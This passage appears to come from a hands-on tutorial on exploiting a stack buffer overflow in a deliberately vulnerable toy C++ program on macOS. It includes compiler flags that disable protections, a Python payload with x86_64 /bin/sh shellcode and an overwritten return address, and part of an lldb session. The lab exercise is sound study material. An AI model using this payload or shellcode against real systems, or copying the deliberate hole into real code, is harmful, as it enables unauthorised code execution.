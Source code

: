 * creating an allocate() function, that allocates the buf[] buffer. This avoids overwriting the cmd buffer whilst performing the overflow, creating a big mess.
* removing the actual call to tolower(), which would make all characters put ino the buffer lowercase, destroying our shellcode.
* removing the condition to break on '\0' from line 8, which creates a problem when \x00 occurs in the cmd buffer, stopping the overflow before finishing writing the shellcode.
* printing the pointer value (line 25)

I compile this on my 64bit mac using clang:

```
$ g++ -fno-stack-protector -Wl,-no_pie -Wl,-allow_stack_execute -g test.cpp
```

The compiler flags are there to remove stack protection (detection of overflows), address randomization (not knowing where the shellcode is written), and allowing executing code located on the stack (why would anyone want that?). Without these flags, it would be much harder to create a working overflow.

We also need input to send to the resulting binary that triggers the overflow, basically a long string, writing over the bounds of the char buf[5] buffer, until it reaches the return pointer on the stack, which contains the memory location of the code that should be executed once the call to allocate has finished.

I use a Python script:

```Python
print "GET " + "A"*21 + "\x00\x00\x7f\xff\x5f\xbf\xf9\x50"[::-1] + "\x41\xb0\x02\x49\xc1\xe0\x18\x49\x83\xc8\x17\x31\xff\x4c\x89\xc0\x0f\x05\xeb\x12\x5f\x49\x83\xc0\x24\x4c\x89\xc0\x48\x31\xd2\x52\x57\x48\x89\xe6\x0f\x05\xe8\xe9\xff\xff\xff\x2f\x62\x69\x6e\x2f\x2f\x73\x68"
```

which writes 21 A charactes (0x41), followed by a 64bit memory location, and shellcode that is supposed to provide me with a shell (taken from http://shell-storm.org/shellcode/files/shellcode-736.php).

The goal of the overflow is to overwrite the return pointer of the allocate function and make it point to the location of the first byte of the shellcode. Let's start a debugger to investigate the memory before and after calling the copy_lower (which overwrites the memory) function:

```
$ python test.py > test_gdb.txt
$ lldb a.out
```

```
(lldb) target create "a.out"
Current executable set to 'a.out' (x86_64).
(lldb) breakpoint set -l 4
Breakpoint 1: where = a.out`copy_lower(char*, char*) + 12 at test.cpp:5, address = 0x0000000100000cdc
(lldb) breakpoint set -l 11
Breakpoint 2: where = a.out`copy_lower(char*, char*) + 88 at test.cpp:11, address = 0x0000000100000d28
(lldb) run test_gdb.txt
Process 40036 launched: '/Users/sicco/Dropbox/buffer_overflow_test/a.out' (x86_64)
Process 40036 stopped
* thread #1: tid = 0x16b64e, 0x0000000100000cdc a.out`copy_lower(in="AAAAAAAAAAAAAAAAAAAAAP??_?, out="") + 12 at test.cpp:5, queue = 'com.apple.main-thread', stop reason = breakpoint 1.1
    frame #0: 0x0000000100000cdc a.out`copy_lower(in="AAAAAAAAAAAAAAAAAAAAAP??_?, out="") + 12 at test.cpp:5
   2   	#include <stdio.h>
   3   	
   4   	void copy_lower (char* in, char* out){
-> 5   		int i = 0;
   6   		while (in[i] != '\n') {
   7   			out[i] = in[i];
   8   			i++;
(lldb) bt
```